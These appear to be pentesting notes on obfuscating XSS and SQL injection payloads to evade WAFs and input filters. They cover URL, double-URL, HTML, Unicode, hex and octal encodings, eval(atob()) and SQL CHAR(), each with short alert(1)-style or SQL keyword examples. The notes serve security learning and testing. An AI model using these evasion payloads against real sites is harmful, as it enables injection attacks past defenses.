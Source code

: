 # Obfuscating

## <mark style="color:yellow;">URL encoding</mark> <a href="#obfuscation-via-url-encoding" id="obfuscation-via-url-encoding"></a>

Sometimes, WAFs may fail to properly URL decode your input during checks.

-> Encode the keywords, so `SELECT` becomes `%53%45%4C%45%43%54`.

### <mark style="color:yellow;">Double URL encoding</mark> <a href="#obfuscation-via-double-url-encoding" id="obfuscation-via-double-url-encoding"></a>

Since the WAF decodes the input only once, it may fail to detect the threat. If the back-end server double-decodes it, the payload will be injected successfully.

```
[...]/?search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E
```

### <mark style="color:yellow;">HTML encoding</mark> <a href="#obfuscation-via-html-encoding" id="obfuscation-via-html-encoding"></a>

In certain HTML locations, like element text or attribute values, browsers automatically decode these references when parsing.

Server-side checks for alert() may miss it if you HTML encode characters.

```html
<img src=x onerror="&#x61;lert(1)">
```

When the browser renders the page, it will decode and execute the injected payload.

**Leading zeros**

HTML encode `:` -> `&#58;` = `&#0000000000058;`

`<a href="javascript&#00000000000058;alert(1)">Click me</a>`

## <mark style="color:yellow;">XML encoding</mark>

XML supports character encoding with the same numeric escape sequences as HTML.

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

## <mark style="color:yellow;">Javascript eval() + atob()</mark> <a href="#obfuscation-via-unicode-escaping" id="obfuscation-via-unicode-escaping"></a>

```javascript
eval(atob("YWxlcnQoKQ=="))    // alert()
```

`atob()` decode a base-64 encoded string.&#x20;

This can be useful to bypass char/string blocked.

## <mark style="color:yellow;">Unicode escaping</mark> <a href="#obfuscation-via-unicode-escaping" id="obfuscation-via-unicode-escaping"></a>

Prefix `\u`. Most programming languages, including JavaScript, decode Unicode escapes. To obfuscate client-side payloads, you can use Unicode in strings.&#x20;

For example, if input is passed to eval() as a string and blocked, try escaping a character like this: `eval("\u0061lert(1)")`.&#x20;

This encoding may go undetected until decoded by the browser.

{% hint style="info" %}
**Note**: Inside a string, you can escape characters, but outside a string, escaping some characters, like parentheses, will cause a syntax error.
{% endhint %}

ES6-style Unicode escapes allow optional leading zeros, so some WAFs might be fooled similarly to HTML encodings. For example:

```html
<a href="javascript:\u{00000000061}alert(1)">Click me</a>
```

## <mark style="color:yellow;">Hex escaping</mark> <a href="#obfuscation-via-hex-escaping" id="obfuscation-via-hex-escaping"></a>

Prefixed with `\x`. Like Unicode escapes, these will be decoded client-side if the input is evaluated as a string: `eval("\x61lert")`

{% hint style="info" %}
**Note**: sometimes, you can obfuscate SQL statements using the `0x` prefix. For example, `0x53454c454354` decodes to the `SELECT` keyword.
{% endhint %}

## <mark style="color:yellow;">Octal escaping</mark> <a href="#obfuscation-via-octal-escaping" id="obfuscation-via-octal-escaping"></a>

Prefixed with `\`.

`eval("\141lert(1)")`

## <mark style="color:yellow;">Multiple encodings</mark> <a href="#obfuscation-via-multiple-encodings" id="obfuscation-via-multiple-encodings"></a>

```html
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```

(HTML) `&bsol;` -> `\`

```html
<a href="javascript:\u0061lert(1)">Click me</a>
```

(Unicode) `\u0061` -> `a`

```html
<a href="javascript:alert(1)">Click me</a>
```

## <mark style="color:yellow;">SQL CHAR() function</mark> <a href="#obfuscation-via-the-sql-char-function" id="obfuscation-via-the-sql-char-function"></a>

`CHAR(83)` = `CHAR(0x53)` = `S`

`SELECT` is blacklisted ->

```sql
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```
